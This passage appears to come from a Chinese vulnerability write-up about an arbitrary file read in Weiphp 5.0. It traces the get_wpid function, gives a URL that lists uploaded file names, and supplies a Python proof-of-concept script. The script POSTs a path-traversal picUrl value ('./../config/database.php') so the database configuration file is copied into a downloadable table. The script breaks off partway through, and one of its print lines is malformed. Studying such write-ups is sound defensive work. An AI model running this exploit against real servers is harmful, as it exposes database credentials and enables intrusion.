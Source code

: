 跟进 **get_wpid** 函数

```php
function get_wpid($wpid = '')
{
    if (defined('WPID')) {
        return WPID;
    } else {
        return 0;
    }
}
```

查看 WPID 的定义，文件位置在**config\weiphp_define.php**

![](http://wikioss.peiqi.tech/vuln/weiphp-12.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

定义值默认为 1，所以这里调用则可以获得数据库中Pictrue表的内容，间接的知道了文件内容以及文件名

访问地址: **http://webphp/public/index.php/home/file/user_pids**

![](http://wikioss.peiqi.tech/vuln/weiphp-13.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

可以看到文件名，根据url地址访问选择下载即可

## 漏洞利用POC

```python
#!/usr/bin/python3
#-*- coding:utf-8 -*-
# author : PeiQi
# from   : http://wiki.peiqi.tech


import requests
import random
import re


def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号 : PeiQi文库                                                \033[0m')                            \033[0m')
    print('+  \033[34mVersion: Weiphp5.0                                                \033[0m')
    print('+  \033[36m使用格式: python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl    >>> http://xxx.xxx.xxx.xxx                                 \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    upload_url = target_url + "/public/index.php/material/Material/_download_imgage?media_id=1&picUrl=./../config/database.php"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36"
    }
    data = {
        "1":1
    }
    try:
        response = requests.post(url=upload_url, headers=headers, data=data, timeout=20)
        if response.status_code == 200:
            print("\033[32m[o] 成功将 database.php文件 写入Pictrue表中\033[0m")
        else:
            print("\033[31m[x] 漏洞利用失败 \033[0m")
```